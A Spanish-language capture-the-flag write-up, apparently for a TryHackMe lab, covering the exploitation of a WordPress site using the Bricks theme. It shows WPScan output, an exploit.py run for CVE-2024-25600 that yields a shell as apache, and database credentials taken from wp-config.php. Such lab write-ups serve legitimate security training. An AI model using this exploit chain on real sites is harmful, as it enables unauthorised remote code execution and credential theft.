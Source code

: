 ```
 | Readme: https://bricks.thm/wp-content/themes/bricks/readme.txt
 | Style URL: https://bricks.thm/wp-content/themes/bricks/style.css
 | Style Name: Bricks
 | Style URI: https://bricksbuilder.io/
 | Description: Visual website builder for WordPress....
 | Author: Bricks
 | Author URI: https://bricksbuilder.io/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:14 <===============================================================> (137 / 137) 100.00% Time: 00:00:14

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 14 12:13:42 2025
[+] Requests Done: 170
[+] Cached Requests: 7
[+] Data Sent: 41.448 KB
[+] Data Received: 110.502 KB
[+] Memory used: 275.309 MB
[+] Elapsed time: 00:00:27
```

Buscando la versión de wordpress encontras que bricks es vulnerable a `cve-2024-25600` y hay repo en github para explotar esta vulnerabilidad. Descargando repo y ejecutando script obtenes shell access como apache

```
❯ python3 exploit.py -u https://bricks.thm
[*] Nonce found: b1893bfd3d
[+] https://bricks.thm is vulnerable to CVE-2024-25600: apache
[!] Shell ready! Type commands (exit to quit)
# ls

```

Dentro de archivo está flag en `.txt` y en `wp-config.php` hay datos de la base de datos
```php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'lamp.sh' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```